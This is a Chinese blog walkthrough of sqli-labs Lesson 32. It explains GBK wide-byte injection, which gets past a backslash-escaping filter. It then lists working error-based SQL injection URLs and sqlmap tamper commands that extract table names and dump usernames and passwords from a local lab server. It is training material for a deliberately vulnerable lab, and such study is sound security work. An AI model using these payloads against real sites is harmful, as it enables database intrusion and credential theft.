 ```yaml
---
title: sqli-labs lession-32 GET-绕过自定义过滤器-向危险字符添加斜杠
date: 2018-10-14 21:10:54
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-32 GET-绕过自定义过滤器-向危险字符添加斜杠

---

## 登录界面

![001](/img/sql/Lesson-32/001.png)

## 分析

![002](/img/sql/Lesson-32/002.png)

ord — 返回字符的 ASCII 码值

dechex — 十进制转换为十六进制

将id的值转成16进制,最终在页面显示出来。

![003](/img/sql/Lesson-32/003.png)

![004](/img/sql/Lesson-32/004.png)

现在看看check_addslashes这个自定义函数做什么过滤。

![005](/img/sql/Lesson-32/005.png)

```
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          		//将\用\\替代,即转义\
	echo $string.'<br>';
    $string = preg_replace('/\'/i', '\\\'', $string);            
    //将'用\'替代,即转义'
	echo $string.'<br>';

    $string = preg_replace('/\"/', "\\\"", $string);                                		//将"用\"替代,即转义"
     
	echo $string.'<br>';

    return $string;
```

这里考的是宽字节绕过。

注意上图中有：

mysql_query("SET NAMES gbk");

## 宽字节注入

红日安全团队团队对宽字节注入研究的很细致。

http://www.freebuf.com/column/165567.html

提取下主干

基本概念：

1. 宽字节是相对于ascII这样单字节而言的；像GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节
2. GBK是一种多字符的编码，通常来说，一个gbk编码汉字，占用2个字节。一个utf-8编码的汉字，占用3个字节
3. 转义函数：为了过滤用户输入的一些数据，对特殊的字符加上反斜杠“\”进行转义；Mysql中转义的函数addslashes，mysql_real_escape_string，mysql_escape_string等，还有一种是配置magic_quote_gpc，不过PHP高版本已经移除此功能

宽字节注入指的是mysql数据库在使用宽字节（GBK）编码时，会认为两个字符是一个汉字（前一个ascii码要大于128（比如%df），才到汉字的范围），而且当我们输入单引号时，mysql会调用转义函数，将单引号变为\’，其中\的十六进制是%5c,mysql的GBK编码，会认为%df%5c是一个宽字节，也就是’運’，从而使单引号闭合（逃逸），进行注入攻击。

## 注入

利用报错注入

### 获取数据库名

`http://192.168.75.132/sql/Less-32/?id=1%df'and extractvalue(null,concat(0x7e,database(),0x7e))%23`

![006](/img/sql/Lesson-32/006.png)

### 获取表名

`http://192.168.75.132/sql/Less-32/?id=1%df'and extractvalue(null,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479),0x7e))%23`

这里`0x7365637572697479`是`security`的16进制编码,为的是绕过原来的`'securty'`。

![007](/img/sql/Lesson-32/007.png)

### 获取列名

`http://192.168.75.132/sql/Less-32/?id=1%df'and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273 and table_schema=0x7365637572697479),0x7e))%23`

![008](/img/sql/Lesson-32/008.png)

### 获取字段

`http://192.168.75.132/sql/Less-32/?id=1%df'and extractvalue(null,concat(0x7e,(select concat(username,password) from users limit 0,1),0x7e))%23`

![009](/img/sql/Lesson-32/009.png)

## SQLMAP

tamper自带了宽字节绕过的脚本unmagicquotes.py

`sqlmap -u "http://192.168.75.132/sql/Less-32/?id=1" --dbms mysql --technique E --tamper unmagicquotes.py`

![010](/img/sql/Lesson-32/010.png)

![011](/img/sql/Lesson-32/011.png)

`sqlmap -u "http://192.168.75.132/sql/Less-32/?id=1" --dbms mysql --technique E --tamper unmagicquotes.py --dbs`

![012](/img/sql/Lesson-32/012.png)

![013](/img/sql/Lesson-32/013.png)

`sqlmap -u "http://192.168.75.132/sql/Less-32/?id=1" --dbms mysql --technique E --tamper unmagicquotes.py -D security --tables`

![014](/img/sql/Lesson-32/014.png)

![015](/img/sql/Lesson-32/015.png)

`sqlmap -u "http://192.168.75.132/sql/Less-32/?id=1" --dbms mysql --technique E --tamper unmagicquotes.py -D security -T users --columns --dump`

![016](/img/sql/Lesson-32/016.png)

![017](/img/sql/Lesson-32/017.png)





